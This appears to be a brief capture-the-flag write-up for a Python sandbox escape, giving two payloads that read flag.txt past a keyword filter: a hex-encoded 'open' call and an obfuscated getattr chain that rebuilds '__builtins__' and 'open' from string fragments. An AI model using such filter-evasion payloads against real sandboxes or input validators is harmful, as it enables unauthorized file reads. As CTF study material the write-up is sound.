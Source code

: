 ## Approach 1

**Use hex encoding**

`print(open('flag.txt').read()) => 7072696e74286f70656e2827666c61672e74787427292e72656164282929`

`$ "7072696e74286f70656e2827666c61672e74787427292e72656164282929".decode('hex')`

## Approach 2

**dictionary elements can be accessed by .get()**

`exit(getattr(locals().get(chr(95)*2+'built'+'ins'+chr(95)*2), 'op'+'en')('fl'+'ag.txt').read())`